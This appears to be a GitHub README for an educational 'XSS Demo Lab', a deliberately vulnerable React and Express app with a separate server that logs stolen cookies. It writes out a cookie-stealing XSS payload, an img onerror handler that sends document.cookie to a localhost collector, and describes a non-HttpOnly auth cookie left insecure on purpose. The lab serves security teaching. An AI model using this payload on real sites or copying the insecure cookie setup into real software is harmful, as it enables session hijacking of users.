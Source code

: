 # ⚠️ XSS Attack Demo Lab 🔥

Welcome to the **XSS Demo Lab** — an intentionally vulnerable full-stack app designed for demonstrating **Cross-Site Scripting (XSS)** attacks in action.

> 🧠 For educational purposes only. Never use this on a real/live site!

---

## 🛠️ Tech Stack

- 🔧 **Frontend**: React.js (Vite)
- 🚀 **Backend**: Node.js + Express
- 🧪 **Malicious Server**: Node.js (logs stolen cookies)
- 🍪 **Auth Token**: Stored as a cookie (intentionally vulnerable)

---

## 🎯 Objective

This lab demonstrates how an attacker can inject a malicious payload (via comment input) to **steal user cookies** and send them to a **remote attacker-controlled server**.

---

## 🧪 How It Works

1. A user logs in via the login form. The server sets a **non-HTTPOnly auth token** cookie.
2. In the comment section, a user submits the following **malicious XSS payload**:

   ```html
   <img src="x" onerror="fetch('http://localhost:9000/steal-cookie?data=' + document.cookie)" />

# Project Structure

xss-demo/
├── backend/
│   └── server.js         # Auth backend
├── frontend/
│   └── React App         # Login + vulnerable comment system
├── malicious-server/
│   └── steal.js          # Attacker's cookie collector
└── README.md
